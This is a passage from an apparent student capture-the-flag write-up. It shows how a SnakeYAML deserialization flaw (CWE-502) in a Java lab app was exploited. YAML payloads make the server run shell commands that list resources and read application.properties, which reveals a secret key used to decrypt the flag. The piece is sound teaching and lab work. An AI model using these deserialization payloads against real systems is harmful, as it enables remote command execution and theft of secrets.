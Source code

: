 ```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ endpoint ] , !!java.lang.String [ ls app/main/resources ] ]
```

We can check the result of the command at `http://10.190.133.22:9004/command/endpoint`:

```
Generated File Content
application.properties
static
templates
```

Then we can read the content of the files. The `application.properties` file is what we are looking for:
```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ endpoint ] , !!java.lang.String [ cat app/main/resources/application.properties ] ]
```

And the content is:

```
 # Server port
server.port=8080

# Secret key
secret.key=7a0346cc2f0209c32c2d94aef4468cdf

# Encrypted flag
secret.data=9yy3Cdy9YhhxSsAzPnQeBGSNuaYs+1BXxOUH0noVnUuwckTvYeUkyf4rj/KUawLhXojMz6eQCmGB7zWKYekAdOyPJSkKuJC2/CMIItm2vSI=

# Thymeleaf
spring.thymeleaf.prefix=classpath:/templates/
spring.thymeleaf.suffix=.html
spring.thymeleaf.cache=false
```

Finally, we can take the secred.key value and paste it in the `http://10.190.133.22:9004/secret` endpoint to decrypt the flag.

![](figures/Screenshot_20231020_160608.png)



> 2.3. Which CWEs did you exploit to obtain the flag?



**CWE-502: Deserialization of Untrusted Data**: This is the primary vulnerability we exploited. The system use the SnakeYAML library to deserialize untrusted data, which leads to the instantiation of arbitrary classes. This allowed us to exploit the `CommandFileGenerator` class to execute commands on the server.


[^1]:  [source](https://www.immuniweb.com/vulnerability/ssrf.html)
